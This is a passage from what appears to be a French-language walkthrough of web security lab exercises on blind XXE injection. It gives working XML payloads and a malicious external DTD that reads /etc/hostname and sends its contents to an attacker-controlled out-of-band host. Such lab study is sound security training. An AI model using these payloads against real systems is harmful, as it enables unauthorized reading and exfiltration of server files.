 Le chemin se retrouve étape par étape à partir de la racine puisque le nom des sous-dossiers est renvoyé à chaque fois. 


### Blind XXE with out-of-band interaction

Même principe qu'au-dessus mais avec une adresse extérieure que l'on contrôle :

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "https://p3t5kp5y5jwxzw5c6zfp9zt3muslgb40.oastify.com">]>
    <stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
    </stockCheck>


### Blind XXE with out-of-band interaction via XML parameter entities

Même principe qu'au-dessus mais avec les entities classiques bloquées : 

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "https://5pvl65rerzidlcrssf15vffj8ae12sqh.oastify.com"> %xxe; ]>
    <stockCheck>
    <productId>%xxe;</productId>
    <storeId>1</storeId>
    </stockCheck>


### Exploiting blind XXE to exfiltrate data using a malicious external DTD

Héberger un DTD externe permet de rendre possible l'exfiltration de données dans le cadre d'une blind XXE. L'exfiltration peut toutefois échouer si il y a des caractères de type retour à la ligne dans le fichier, c'est pourquoi **/etc/hostname** peut être un bon premier test alternatif à **/etc/passwd**


Code à héberger sur le serveur d'exploitation :


    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://jczc6bq6dhues5s3n5he15eev51wpmdb.oastify.com/?x=%file;'>">
    %eval;
    %exfil;


Payload à ajouter au contenu XML de la fonction "Check stock" de n'importe quel produit : 

    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a14001303ee106c83b0721e01c5004a.exploit-server.net/exploit.dtd"> %xxe;]>

On reçoit bien le contenu du fichier /etc/hostname en paramètre de la requête HTTP au Collaborator

### Exploiting blind XXE to retrieve data via error messages

